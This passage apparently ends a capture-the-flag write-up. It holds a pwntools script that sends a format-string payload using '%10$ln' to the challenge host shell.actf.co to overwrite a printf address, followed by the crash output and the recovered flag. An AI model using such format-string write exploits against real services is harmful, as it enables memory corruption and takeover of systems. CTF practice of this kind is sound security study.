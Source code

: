 ```python
flag = str(flag)					# Convert to string
payload = '%' + flag + 'x%10$ln'	# Using ln because of 8 bytes address
# p = elf.process()
p = remote('shell.actf.co',19011)
p.recvuntil("purchase? ")
p.sendline(payload.rjust(16)+p64(printf_address)[:3])
p.interactive()
```
We get the Flag!!!!!
```
efc80510@@@actf{limited_edition_flag}Segmentation fault (core dumped)
[*] Got EOF while reading in interactive
```
[Full script](solve.py)

## Flag
> actf{limited_edition_flag}